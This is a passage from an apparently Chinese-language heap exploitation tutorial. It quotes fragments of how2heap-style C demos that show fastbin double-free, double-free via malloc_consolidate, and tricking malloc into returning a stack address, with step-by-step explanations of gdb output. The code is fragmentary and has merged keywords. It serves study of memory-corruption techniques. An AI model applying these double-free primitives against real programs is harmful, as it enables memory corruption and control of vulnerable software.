





fprintf(stderr, "Now, we can free %p again, since it's not the head of the free list.\n", a); free(a);
fprintf(stderr, "Now the free list has [ %p, %p, %p ]. If we malloc 3 times, we'll get %p twice!\n", a, b, a, a); a = malloc(8); b = malloc(8); c = malloc(8); fprintf(stderr, "1st malloc(8): %p\n", a); fprintf(stderr, "2nd malloc(8): %p\n", b); fprintf(stderr, "3rd malloc(8): %p\n", c);
assert(a == c); }
gdb这个过程，执行到代码19行时，chunk a 进入fastbin ，根据fastbin特性chunk a成为fastbin的表头。

执行到代码25行时，chunk b 进入fastbin ，根据fastbin特性chunk b成为fastbin的表头。

执行到代码28行时，我们再次free a ，可以看到chunk a再次被释放成为fastbin的表头。

看到此时chunk a 的fd指向chunk b ，chunk b 的fd指向chunk a。这样我们 无论申请多少chunk其指针都会是chunk a 的指针和chunk b的指针之间。
void* p3 = malloc(0x400); fprintf(stderr, "Allocated large bin to trigger malloc_consolidate(): p3=%p\n", p3); fprintf(stderr, "In malloc_consolidate(), p1 is moved to the unsorted bin.\n"); free(p1); fprintf(stderr, "Trigger the double free vulnerability!\n"); fprintf(stderr, "We can pass the check in malloc() since p1 is not fast top.\n"); fprintf(stderr, "Now p1 is in unsorted bin and fast bin. So we'will get it twice: %p %p\n", malloc(0x40), malloc(0x40)); }
执行到代码10行时，chunk a 进入fastbin。

执行到代码12行时，申请了一块符合large chunk大小的内存，fastbin被初始化。

执行到代码15行时，我们再次free chunk a ，我们发现fastbin中再次出现chunk a。
intmain() { fprintf(stderr, "This file extends on fastbin_dup.c by tricking malloc into\n" "returning a pointer to a controlled location (in this case, the stack).\n");
unsignedlonglong stack_var;
fprintf(stderr, "The address we want malloc() to return is %p.\n", 8+(char *)&stack_var);
fprintf(stderr, "Allocating 3 buffers.\n"); int *a = malloc(8); int *b = malloc(8); int *c = malloc(8);
fprintf(stderr, "Now, we can free %p again, since it's not the head of the free list.\n", a); free(a);
fprintf(stderr, "Now the free list has [ %p, %p, %p ]. " "We'll now carry out our attack by modifying data at %p.\n", a, b, a, a); unsignedlonglong *d = malloc(8);
fprintf(stderr, "1st malloc(8): %p\n", d); fprintf(stderr, "2nd malloc(8): %p\n", malloc(8)); fprintf(stderr, "Now the free list has [ %p ].\n", a); fprintf(stderr, "Now, we have access to %p while it remains at the head of the free list.\n" "so now we are writing a fake free size (in this case, 0x20) to the stack,\n" "so that malloc will think there is a free chunk there and agree to\n" "return a pointer to it.\n", a); stack_var = 0x20;
fprintf(stderr, "Now, we overwrite the first 8 bytes of the data at %p to point right before the 0x20.\n", a); *d = (unsignedlonglong) (((char*)&stack_var) - sizeof(d));
fprintf(stderr, "3rd malloc(8): %p, putting the stack address on the free list\n", malloc(8)); fprintf(stderr, "4th malloc(8): %p\n", malloc(8)); }